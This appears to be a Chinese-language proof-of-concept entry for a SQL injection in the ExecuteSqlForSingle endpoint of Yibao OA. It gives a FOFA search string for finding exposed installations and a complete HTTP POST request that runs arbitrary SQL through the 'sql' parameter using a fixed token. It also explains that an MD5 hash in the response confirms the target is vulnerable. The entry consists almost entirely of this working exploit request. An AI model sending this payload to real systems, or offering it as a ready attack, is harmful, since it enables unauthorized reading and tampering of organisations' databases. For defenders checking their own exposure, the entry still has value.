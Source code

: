 ## 易宝OA ExecuteSqlForSingle SQL注入漏洞

## fofa
```
"顶讯科技"
```

## poc
```
POST /api/system/ExecuteSqlForSingle HTTP/1.1
Host: IP:PORT
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Length: 103

token=zxh&sql=select substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)&strParameters
```
发送poc 在返回包中存在 `e10adc3949ba59abbe56e057f20f883e` 字符为存在漏洞


